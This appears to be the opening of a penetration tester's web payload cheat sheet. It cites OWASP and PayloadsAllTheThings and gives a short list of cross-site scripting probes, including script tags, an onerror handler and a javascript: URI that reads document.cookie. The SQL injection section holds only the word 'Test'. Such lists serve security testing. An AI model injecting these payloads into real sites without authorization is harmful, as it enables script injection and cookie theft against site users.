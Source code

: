 This payload list will include a diverse set of basic payloads for each attack type with the goal of identifying the vulnerability using the least amount of attempts. For a longer list of payloads, see the LongPayloadList document or review the sources below. While this payload list was hand selected from my own personal notes(generated over the course of 3 years), most of the payloads can be found in the sources below.

[https://github.com/swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

[https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/assets/docs/OWASP_SCP_Quick_Reference_Guide_v21.pdf](https://owasp.org/www-project-secure-coding-practices-quick-reference-guide/assets/docs/OWASP_SCP_Quick_Reference_Guide_v21.pdf)

[https://owasp.org/www-project-code-review-guide/assets/OWASP_Code_Review_Guide_v2.pdf](https://owasp.org/www-project-code-review-guide/assets/OWASP_Code_Review_Guide_v2.pdf)

Payloads that you can throw into any endpoint:

**Cross-Site Scripting (XSS):**

[https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

```jsx
<b>test</b> 
<script>alert(1)</script>

<img src=1 onerror=alert(1)>

javascript:alert(document.cookie)

"onmouseover="alert(1)

${alert(1)}

alert`1`

‘-alert()-’
```

**SQLi:**
Test